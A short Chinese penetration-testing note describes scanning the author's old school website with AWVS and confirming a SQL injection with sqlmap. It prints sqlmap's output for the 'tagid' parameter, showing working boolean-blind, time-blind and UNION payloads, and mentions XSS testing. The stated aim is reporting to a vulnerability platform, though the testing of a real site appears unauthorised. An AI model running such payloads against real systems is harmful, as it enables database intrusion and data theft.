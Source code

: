 # 渗透简单的记录笔记

## 信息收集

~~~~
基于对母校的热爱，awvs一波扫描，发现几个月前的sql注入，xss漏洞依旧存在，决定搞一波操作，然后提交公益src
~~~~

![](https://raw.githubusercontent.com/16778738/picture/master/img/20220409164817.png)

## 漏洞验证

使用**burp插件**直接调用sqlmap

![](https://raw.githubusercontent.com/16778738/picture/master/img/20220409165010.png)

~~~~
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.0.12

---
Parameter: tagid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: tagid=3 AND 6952=6952

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: tagid=3 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: tagid=3 UNION ALL SELECT CONCAT(0x7176707071,0x4a6c5946456a6f484f77736949536d63616b6b7957565659764f68674345666b4666727444676658,0x716a716a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- nwZq
---
~~~~

点到为止，所以对网站的xss漏洞进行测试

![](https://raw.githubusercontent.com/16778738/picture/master/img/20220409172658.png)


